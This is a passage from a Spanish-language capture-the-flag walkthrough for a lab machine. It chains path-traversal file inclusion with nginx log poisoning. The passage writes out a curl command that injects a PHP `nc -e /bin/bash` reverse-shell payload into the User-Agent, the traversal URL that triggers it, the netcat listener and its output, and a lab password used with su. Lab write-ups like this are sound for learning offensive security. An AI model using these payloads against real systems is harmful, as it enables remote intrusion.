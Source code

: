 ¡Hurra, vemos que funciona! Ahora podemos tratar de obtener una **`Reverse Shell`** gracias a otra vulnerabilidad llamda **`Log Poisoning`**.

Esta vulnerabilidad es muy fácil de explotar, simplemente enviaremos una solicitud a la web con el **`User-Agent`** modificado por un pequeño **`script`** en **`PHP`**, este, una vez carguemos el fichero, se ejecutará.

Vamos a mandar la petición con el **`User-Agent`** modificado:

```shell
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Principle 2]
└─# curl http://thetruthoftalos.hmv/REVERSE_SHELL -H "User-Agent: <?php exec('nc -e /bin/bash 192.168.1.103 4444')  ?>"
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.22.1</center>
</body>
</html>
```

Este pequeño **`script`** en **`PHP`**, una vez ejecutado, lanzará una **`Reverse Shell`** a nuestra máquina, permitiéndonos así la entrada a la máquina.

Antes de cargar el recurso vamos a ponernos en escucha. En mi caso lo haré por el puerto **`4444`** ya que así lo puse en la petición:

```shell
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Principle 2]
└─# nc -nlvp 4444  
listening on [any] 4444 ...
```

Ahora sí, podemos cargar el recurso simplemente accediento a esta **`URL`**:

```
http://thetruthoftalos.hmv/index.php?filename=....//....//....//....//....//....//....//....//....//....//....//var/log/nginx/access.log
```

Justo entremos nos entablará la conexión:

```shell
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Principle 2]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.1.103] from (UNKNOWN) [192.168.1.118] 55138
www-data@principle2:~/thetruthoftalos.hmv$
```

¡Qué bien, estamos en la máquina como **`www-data`**! Ahora debemos iniciar sesión como **`Hermanubis`** utilizando la contraseña antes encontrada:

```shell
www-data@principle2:~/thetruthoftalos.hmv$ su hermanubis
Password: ByronIsAsshole
hermanubis@principle2:/var/www/thetruthoftalos.hmv$
```
